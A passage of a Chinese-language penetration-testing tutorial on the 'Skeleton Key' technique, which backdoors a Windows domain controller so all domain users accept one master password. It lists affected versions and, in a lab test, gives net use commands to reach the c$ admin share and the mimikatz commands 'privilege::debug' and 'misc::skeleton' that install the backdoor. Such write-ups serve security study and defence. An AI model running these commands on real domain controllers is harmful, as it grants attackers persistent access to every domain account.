 # 域渗透——Skeleton Key

0x00 前言
=====

上篇介绍了利用SSP来维持域控权限，美中不足在于其需要域控重启才能生效，而在众多的域渗透方法中，当然存在不需要域控重启即能生效的方法，所以这次就介绍其中的一个方法——Skeleton Key

![Alt text](http://drops.javaweb.org/uploads/images/28454182c38ae328dcfac540ca87d7e1aa2d16dd.jpg)

0x01 简介
=====

> Skeleton Key被安装在64位的域控服务器上  
> 支持Windows Server2003—Windows Server2012 R2  
> 能够让所有域用户使用同一个万能密码进行登录  
> 现有的所有域用户使用原密码仍能继续登录  
> 重启后失效  
> Mimikatz(Version 2.0 alpha,20150107)支持 Skeleton Key

**参考代码：**  
[https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c)

0x02 实际测试
=====

**测试环境**

```
域控：Server 2008 R2 x64
域内主机： Win7 x64

```

### 1、域内主机使用正确密码登录域控

用户名：a@test.local  
密码：12345678!Q

**cmd命令：**

```
net use \\WIN-8VVLRPIAJB0.test.local 12345678!Q /user:a@test.local
dir \\WIN-8VVLRPIAJB0.test.local\c$

```

如图![Alt text](http://drops.javaweb.org/uploads/images/51593b831b9e1142122993f1abd0758b447cd4ee.jpg)

### 2、在域控安装Skeleton Key

**mimikatz命令：**

```
privilege::debug
misc::skeleton

```
